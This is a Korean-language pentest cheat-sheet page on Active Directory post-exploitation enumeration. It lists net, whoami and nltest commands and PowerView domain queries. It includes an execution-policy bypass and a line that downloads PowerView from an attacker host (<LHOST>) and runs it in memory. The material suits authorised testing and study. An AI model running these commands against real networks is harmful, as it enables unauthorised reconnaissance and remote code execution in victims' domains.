

repository: naaamgi/my-docusaurus-page · page: cheatsheet/post-exploitation/active-directory/index.html · generator: docusaurus

---
sidebar_position: 1
---

# Active Directory

Active Directory 환경에서의 Post Exploitation 기법입니다.

## 수동 열거

### 사용자 정보

```cmd
# 도메인 사용자 목록
net user /domain

# 특정 사용자 정보
net user <USERNAME> /domain

# 현재 사용자
whoami /all
whoami /user
whoami /groups
whoami /priv
```

### 그룹 정보

```cmd
# 도메인 그룹 목록
net group /domain

# 특정 그룹 멤버
net group "Domain Admins" /domain
net group "Enterprise Admins" /domain

# 로컬 그룹
net localgroup
net localgroup Administrators
```

### 컴퓨터 정보

```cmd
# 도메인 컨트롤러
nltest /dclist:<DOMAIN>

# 도메인 신뢰
nltest /domain_trusts
```

## PowerView를 이용한 열거

### 설치 및 로드

```powershell
# 다운로드
iwr -uri https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1 -outfile PowerView.ps1

# 로드
powershell -ep bypass
. .\PowerView.ps1

# 또는 메모리에서 직접
IEX (New-Object Net.WebClient).DownloadString('http://<LHOST>/PowerView.ps1')
```

### 도메인 정보

```powershell
# 도메인 정보
Get-NetDomain

# 도메인 컨트롤러
Get-NetDomainController

# 도메인 정책
Get-DomainPolicy
(Get-DomainPolicy)."SystemAccess"

# 포레스트 정보
Get-NetForest
Get-NetForestDomain
```
